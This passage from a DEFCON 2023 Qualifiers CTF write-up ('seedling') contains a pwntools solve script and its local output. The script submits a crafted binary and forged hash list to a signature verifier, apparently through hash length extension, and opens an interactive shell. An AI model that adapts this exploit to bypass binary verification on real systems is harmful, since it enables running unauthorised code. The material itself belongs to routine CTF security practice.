 ```python!
condition 1 $rdx > 0xf
continue
"""

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    io.sendlineafter(b': ', b'ticket{REDACTED}')
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

io = start(['./src/key.txt'])
binary = open('./exploit/shell', 'rb').read()
hashs = open('./exploit/sus.txt', 'rb').read().strip().splitlines()
io.sendlineafter(b'\n', str(len(binary)).encode())
io.sendafter(b'\n', binary)
io.recvline()
io.sendline(str(len(hashs)).encode())
for l in hashs:
    io.sendline(l)
io.recvuntil(b'Successfully verified binary!\n')

# io.sendline(b'cat /challenge/flag')
io.interactive()
```

Server had been down so here is the local output:

```
[wsl]code/2023/DEFCON/DEFCON_CTF_2023_Qualifiers/seedling [🐍 v3.10.6]
:) python solve.py LOCAL
[*] '/mnt/d/code/2023/DEFCON/DEFCON_CTF_2023_Qualifiers/seedling/src/verify'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Starting local process '/mnt/d/code/2023/DEFCON/DEFCON_CTF_2023_Qualifiers/seedling/src/verify': pid 26234
[*] Switching to interactive mode
Hello hackers
$ ls
exploit  hlextend.py  sign.py  solve.py  src  write.py
$
```
